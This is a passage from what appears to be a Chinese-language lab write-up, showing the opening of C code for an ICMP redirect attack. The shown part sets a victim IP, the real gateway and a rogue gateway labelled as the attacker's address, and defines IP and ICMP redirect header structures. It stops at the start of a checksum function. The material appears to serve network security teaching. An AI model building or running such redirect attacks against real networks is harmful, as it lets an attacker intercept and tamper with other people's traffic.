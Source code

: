 

## 5 实验代码：

实验代码：

```c
#include <pcap.h>
#include <time.h>
#include <stdlib.h>
#include <stdio.h>
#include <netinet/in.h>
#include<sys/socket.h>
#include<unistd.h>
#include <string.h>
#include <arpa/inet.h>

#define MAX 1024
#define SIZE_ETHERNET 14

const unsigned char *Target_IP = "192.168.32.132"; //靶机IP
const unsigned char *Ori_Gw = "192.168.32.2";      //网关
const unsigned char *Redic_IP = "192.168.32.131";  //修改之后的网关，这里我们设置为攻击者ip
int flag = 0;

//IP header
/* IP header */
struct ip_header {
#ifdef WORDS_BIGENDIAN
    u_int8_t ip_version:4;
  u_int8_t ip_header_length:4;
#else
    u_int8_t ip_header_length:4;
    u_int8_t ip_version:4;
#endif
    u_char  ip_tos;                 /* type of service */
    u_short ip_len;                 /* total length */
    u_short ip_id;                  /* identification */
    u_short ip_off;                 /* fragment offset field */
#define IP_RF 0x8000            /* reserved fragment flag */
#define IP_DF 0x4000            /* dont fragment flag */
#define IP_MF 0x2000            /* more fragments flag */
#define IP_OFFMASK 0x1fff       /* mask for fragmenting bits */
    u_char  ip_ttl;                 /* time to live */
    u_char  ip_protocol;                   /* protocol */
    u_short ip_checksum;                  /* checksum */
    struct  in_addr ip_source_address,ip_destination_address;  /* ip_destination_address */
};


// icmp 重定向报文头
struct icmp_header
{
    u_int8_t icmp_type;
    u_int8_t icmp_code;
    u_int16_t icmp_checksum;
    struct in_addr icmp_gateway_addr;

    //u_int16_t icmp_identifier;
    //u_int16_t icmp_sequence;
};

/*
 * 计算校验和
```